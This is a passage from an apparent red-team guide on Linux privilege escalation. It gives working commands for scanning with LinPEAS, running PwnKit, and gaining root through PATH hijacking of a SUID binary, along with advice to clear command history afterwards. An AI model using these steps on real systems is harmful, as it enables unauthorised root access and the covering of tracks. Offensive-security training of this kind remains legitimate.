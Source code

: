 echo "Remember to clean up after successful privilege escalation!"

echo "    - Remove any compiled exploits"
echo "    - Restore original files if modified"
echo "    - Clear command history: history -c"
```

### Example: Reliable Privilege Escalation Chains

During a red team engagement for a government contractor, we encountered a situation where multiple privilege escalation attempts were needed to gain root access. Here's our approach:

1. **Initial Reconnaissance**:
   ```bash
   # Target was running an older Ubuntu 18.04 system
   uname -a
   # Linux ubuntuserver 4.15.0-142-generic #146-Ubuntu SMP ...
   
   # Ran privilege escalation scanners
   ./linpeas.sh > linpeas_output.txt
   ./linux-exploit-suggester.sh > les_output.txt
   ```

2. **First Attempt - PwnKit**:
   ```bash
   # LinPEAS identified pkexec as SUID binary
   # Deployed PwnKit exploit
   gcc -o pwnkit pwnkit.c
   chmod +x pwnkit
   ./pwnkit
   
   # Exploitation failed due to security patches
   # Error: pkexec: error getting authority
   ```

3. **Second Attempt - Custom SUID Binary**:
   ```bash
   # Found unusual SUID binary in LinPEAS output
   ls -la /opt/monitoring/healthcheck
   # -rwsr-xr-x 1 root root 16728 Jan 15 2023 /opt/monitoring/healthcheck
   
   # Analyzed the binary
   strings /opt/monitoring/healthcheck
   # Discovered it called system("cat /var/log/syslog | grep ERROR")
   
   # Path hijacking attack
   cd /tmp
   echo -e '#!/bin/bash\n/bin/bash -p' > cat
   chmod +x cat
   export PATH=/tmp:$PATH
   
   # Executed the SUID binary
   /opt/monitoring/healthcheck
   
   # Got root shell through PATH hijacking
   id
   # uid=1001(developer) gid=1001(developer) euid=0(root) groups=1001(developer)
   ```
